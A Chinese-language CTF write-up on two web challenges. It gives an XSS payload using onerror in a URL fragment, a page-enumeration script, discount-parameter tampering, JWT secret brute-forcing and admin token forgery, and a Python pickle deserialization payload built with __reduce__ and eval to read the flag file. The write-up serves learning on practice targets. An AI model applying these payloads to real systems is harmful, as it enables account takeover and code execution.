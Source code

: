 # web解题writeup

## [xss-game](https://xss-game.appspot.com/level3)

- 通过观察参数，发现url内容被直接写入了<img>标签，尝试构造

  payload，发现双引号被过滤，使用单引号成功触发xss

- 找到入口点以后，进入则触发了`xss`

  ```html
  https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
  ```

  ![](./img/alert.png)

## [web类 CISCN2019华东北赛区web2](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web2]ikun)

- 打开靶机，进入[网页](http://c545ba98-1518-456b-938c-a10812dff191.node3.buuoj.cn/shop)

  ![](./img/kun.png)

- 最下边的提示 -> 一定要买到 lv6,发现没有lv6这个图片，一共有500百页，网上找到一段爆破的代码(python反序列化确实不会，所以基本是复现网上的教程)

  ```python
  import requests
  url='http://2c771d3e-86f0-4f72-9815-f19dcb4fd51a.node3.buuoj.cn/shop?page='
  
  for i in range(0,2000):
      r=requests.get(url+str(i))
      if 'lv6.png' in r.text:
          print (i)
          break
  ```

- 发现lv6商品，加入到购物车后，准备注册账号并登录购买。显然钱数是不够的，但是却有折扣这一参数被直接post传值。那么修改其值足够小即可。得到一个目录`b1g_m4mber`。应该是后台地址

- 访问网址提示需要admin操作权限。这里抓包一下，发现cookie里居然有JWT。看来是比较常见的JWT伪造认证了。

- 先拿来base64解码，发现存在乱码。可能是因为加了盐值key的原因。那么第一步先爆破下key值：

  ![](./img/secret.png)

- 得到JWTKey 为1Kun,接下来上[https://jwt.io/](https://links.jianshu.com/go?to=https%3A%2F%2Fjwt.io%2F),去生成admin的jwt token.

  ![](./img/encode.png)

- 可以看到jwt-token一定是xxx.yyy.zzz的形式。且三段各自代表header,paylaod，signature的json数据内容经base64处理。爆破key值修改paylload为admin,控制台里修改

  ```bash
  document.cookie="JWT=xxxxxxxxxxx"
  ```

- 之后发现源码存在[www.zip](https://links.jianshu.com/go?to=http%3A%2F%2Fwww.zip)。可以拿到源码，之后是python反序列化。具体漏洞在Admin.py：

  ```python
  import tornado.web
  from sshop.base import BaseHandler
  import pickle
  import urllib
  
  
  class AdminHandler(BaseHandler):
      @tornado.web.authenticated
      def get(self, *args, **kwargs):
          if self.current_user == "admin":
              return self.render('form.html', res='This is Black Technology!', member=0)
          else:
              return self.render('no_ass.html')
  
      @tornado.web.authenticated
      def post(self, *args, **kwargs):
          try:
              become = self.get_argument('become')
              p = pickle.loads(urllib.unquote(become))
              return self.render('form.html', res=p, member=1)
          except:
              return self.render('form.html', res='This is Black Technology!', member=0)
  ```

- 这里其实可以把`pickle.loads`的操作理解为反序列化。而`__reduce__`这一魔术方法会在对象被pickle时调用。从而可以构造payload:

  ```python
  import pickle
  import urllib
  class payload(object):
      def __reduce__(self):
         return (eval, ("open('/flag.txt','r').read()",))
  
  a = pickle.dumps(payload())
  a= urllib.quote(a)
  print(a)
  ```

- 跑起来后传值拿到`flag`

  ![](./img/burp.png)



